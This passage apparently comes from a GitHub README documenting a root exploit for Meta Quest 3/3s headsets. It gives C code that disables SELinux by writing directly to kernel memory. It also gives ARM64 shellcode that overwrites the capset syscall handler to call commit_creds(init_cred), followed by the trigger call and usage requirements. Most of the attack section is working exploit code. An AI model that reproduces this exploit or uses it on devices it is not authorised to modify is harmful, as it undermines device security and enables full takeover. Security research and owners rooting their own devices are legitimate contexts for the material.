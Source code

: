 ### 5. Disabling SELinux and Gaining Root

With symbol addresses resolved, the exploit disables SELinux and escalates privileges by patching kernel memory.

#### Disabling SELinux

```c
bool* kernel_selinux_state_enforcing_ptr = (bool*)(kernel_physical_base + (kernel_selinux_state_addr - kernel_virtual_base));
*kernel_selinux_state_enforcing_ptr = false;
__builtin___clear_cache((char*)kernel_selinux_state_enforcing_ptr, (char*)kernel_selinux_state_enforcing_ptr + sizeof(bool));
```

#### Privilege Escalation

The exploit patches the kernel's `__do_sys_capset` syscall handler with shellcode that calls `commit_creds(init_cred)`, then invokes the syscall from user space to gain root.

```c
uint32_t shellcode[] = {
    0x58000040, // ldr x0, .+8
    0x14000003, // b   .+12
    LO_DWORD(init_cred_addr),
    HI_DWORD(init_cred_addr),
    0x58000041, // ldr x1, .+8
    0x14000003, // b   .+12
    LO_DWORD(commit_creds_addr),
    HI_DWORD(commit_creds_addr),
    0xA9BF7BFD, // stp x29, x30, [sp, #-0x10]!
    0xD63F0020, // blr x1
    0xA8C17BFD, // ldp x29, x30, [sp], #0x10
    0x2A1F03E0, // mov w0, wzr
    0xD65F03C0, // ret
};
```

Patch and trigger:

```c
stupid_memcpy(kernel___do_sys_capset_ptr, shellcode, sizeof(shellcode));
__builtin___clear_cache(kernel___do_sys_capset_ptr, kernel___do_sys_capset_ptr + sizeof(shellcode));
capset(NULL, NULL); // Triggers shellcode, sets UID=0
```

Restore the original syscall handler after use.

---

## Usage

**Requirements:**
- Meta Quest 3/3s device (eureka/panther)
- `adb` shell
- Compiled exploit binary
